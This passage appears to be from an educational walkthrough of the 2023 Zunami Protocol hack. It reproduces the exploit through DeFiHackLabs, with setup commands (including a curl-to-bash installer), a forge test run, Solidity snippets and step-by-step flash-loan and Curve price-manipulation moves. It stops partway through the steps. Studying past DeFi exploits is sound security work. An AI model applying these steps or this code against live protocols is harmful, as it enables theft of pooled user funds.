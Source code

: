 ``` c
    }

    function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external {
        USDC.transfer(msg.sender, uint256(amount0Delta));
    }
}
```

![image](/pics/hackmd.io/HycbnnlgA.png)
https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/past/2023/README.md#20230814-zunamiprotocol---price-manipulation
### Setup and run:
``` bash
curl -L https://foundry.paradigm.xyz | bash
git clone git@github.com:SunWeb3Sec/DeFiHackLabs.git
cd DeFiHackLabs
```
``` bash
forge test --contracts ./src/test/Zunami_exp.sol --evm-version 'shanghai' -vvv
```

1. Secure a loan comprising 7,000,000 USDT from UniswapV3, alongside 7,000,000 USDC and 10,011 WETH from Balancer. (`uniswapV3FlashCallback` and `BalancerFlashLoan` functions from ContractTest smart contract)
2. Deposit 5,750,000 USDC to add liquidity in Curve Finance and mint approximately 5,746,896 GrvFRAX. Then, swap about 5,746,896 GrvFRAX for approximately 4,082,046 UZD, and swap 1,250,000 USDC for around 791,280 UZD on Curve.
``` solidity
uint256[2] memory amount;
amount[0] = 0;
amount[1] = 5_750_000 * 1e6;
// mint crvFRAX
uint256 crvFRAXBalance = FRAX_USDC_POOL.add_liquidity(amount, 0);
// swap crvFRAX to UZD
UZD_crvFRAX_POOL.exchange(1, 0, crvFRAXBalance, 0, address(this)); 
// swap USDC to crvUSD
crvUSD_USDC_POOL.exchange(0, 1, 1_250_000 * 1e6, 0, address(this)); 
```
3.  Engage in price manipulation by swapping 11 WETH for approximately 55,981 ST on Curve. Following this, contribute all 55,598 SDT obtained from the swap to the MIMCurveStakeDao as a donation.
